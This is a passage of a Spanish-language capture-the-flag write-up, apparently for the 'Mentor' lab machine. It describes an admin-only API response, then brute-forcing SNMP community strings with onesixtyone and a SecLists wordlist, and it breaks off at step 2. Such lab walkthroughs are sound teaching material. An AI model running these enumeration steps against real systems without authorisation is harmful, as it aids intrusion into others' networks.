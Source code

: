 ![Captura](./Imágenes/token_mentor.png)

![Captura](./Imágenes/get_user_mentor.png)

Explicación: aquí de entrada no aparecía el apartado `Authorization` por lo que lo añadimos manualmente junto a su token, pero nos devuelve una respuesta de solo acceso para administradores. Refuerza nuestra hipótesis de que necesitamos un token con privilegios de administrador

---
## Fase de explotación
### Paso 1 -

Acción:  

```Shell
onesixtyone -c /usr/share/SecLists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt 10.10.11.193
```

Resultado:

```Shell
Scanning 1 hosts, 120 communities
10.10.11.193 [public] Linux mentor 5.15.0-56-generic #62-Ubuntu SMP Tue Nov 22 19:54:14 UTC 2022 x86_64
10.10.11.193 [public] Linux mentor 5.15.0-56-generic #62-Ubuntu SMP Tue Nov 22 19:54:14 UTC 2022 x86_64
```

Explicación:  una vez enumerado, pasamos a explotar el vector de ataque *snmp*, para ello usamos la herramienta `onesixtyone` que nos muestra la community strings por defecto 'public'

**onesixtyone:** es una herramienta para descubrir dispositivos SNMP activos en una red. Se usa para hacer escaneos rápidos de SNMP usando diccionarios de _community strings_.

**Nota:** para el siguiente escaneo, antes vamos a instalar este recurso: `apt install snmp-mibs-downloader` para poder listar la información de forma descriptiva y no en caracteres iso. Posteriormente, modificamos este archivo: `nvim /etc/snmp/snmp.conf` y comentamos y añadimos: `mibdirs +/var/lib/snmp/mibs` como se ve a continuación

```lua
# As the snmp packages come without MIB files due to license reasons, loading
# of MIBs is disabled by default. If you added the MIBs you can reenable
# loading them by commenting out the following line.
#mibs :
mibdirs +/var/lib/snmp/mibs
# If you want to globally change where snmp libraries, commands and daemons
# look for MIBS, change the line below. Note you can set this for individual
# tools with the -M option or MIBDIRS environment variable.
#
# mibdirs /usr/share/snmp/mibs:/usr/share/snmp/mibs/iana:/usr/share/snmp/mibs/ietf
```
### Paso 2 -
